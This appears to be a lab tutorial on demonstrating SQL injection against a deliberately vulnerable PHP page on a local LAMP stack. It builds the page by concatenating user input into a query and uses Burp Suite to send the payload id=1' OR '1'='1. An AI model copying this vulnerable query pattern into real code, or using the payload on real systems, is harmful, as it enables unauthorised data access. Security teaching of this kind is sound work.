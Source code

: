 ## 1. Setup LAMP Stack
- Install Apache, MySQL, and PHP on your Linux system (Ubuntu example):
  ```bash
  sudo apt update
  sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql -y
  sudo systemctl start apache2
  sudo systemctl enable apache2
  sudo systemctl start mysql
  sudo systemctl enable mysql
  ```
- Confirm Apache is running by visiting `http://localhost` in a browser to see the default page.[1][2]

## 2. Create a Vulnerable PHP Script
- Place the following PHP code in `/var/www/html/users.php`:
  ```php
  <?php
  $conn = new mysqli("localhost", "root", "your_mysql_password", "testdb");
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }
  $id = $_GET['id'];
  $result = $conn->query("SELECT * FROM users WHERE id='$id'");
  
  while ($row = $result->fetch_assoc()) {
      echo "User: " . $row['username'] . "<br>";
  }
  $conn->close();
  ?>
  ```
- Create the `testdb` database and `users` table with some sample data:
  ```sql
  CREATE DATABASE testdb;
  USE testdb;
  CREATE TABLE users (id INT PRIMARY KEY, username VARCHAR(50));
  INSERT INTO users VALUES (1, 'Alice'), (2, 'Bob'), (3, 'Charlie');
  ```
- Make sure permissions are correct to serve the PHP page.[3][4]

## 3. Test the CGI PHP script in Browser
- Visit:
  ```
  http://localhost/users.php?id=1
  ```
- You should see "User: Alice" output.

## 4. Use Burp Suite to Test SQL Injection
- Configure your browser proxy to Burp Suite.
- In Burp Proxy, enable Intercept.
- Browse to the URL above.
- Intercept the HTTP GET request.
- Right-click on the request → Send to Repeater.
- In the Repeater tab, modify the parameter `id` to an SQL injection payload:
  ```
  id=1' OR '1'='1
  ```
- Send the modified request.
- Observe the response showing all users, confirming SQL injection:
  ```
  User: Alice
  User: Bob
  User: Charlie
  ```
- This proves the SQL query was manipulated to bypass intended filtering.[5][6][7]

***

### Summary of commands and file locations:

Set up database and sample data:
```sql
CREATE DATABASE testdb;
USE testdb;
CREATE TABLE users (id INT PRIMARY KEY, username VARCHAR(50));
INSERT INTO users VALUES (1, 'Alice'), (2, 'Bob'), (3, 'Charlie');
```

PHP file location: `/var/www/html/users.php`

Browser URL for testing: `http://localhost/users.php?id=1`

Burp Suite injection payload: `id=1' OR '1'='1`

This procedure illustrates exploiting SQL Injection on a vulnerable PHP script on a LAMP stack using Burp Suite for manual testing.

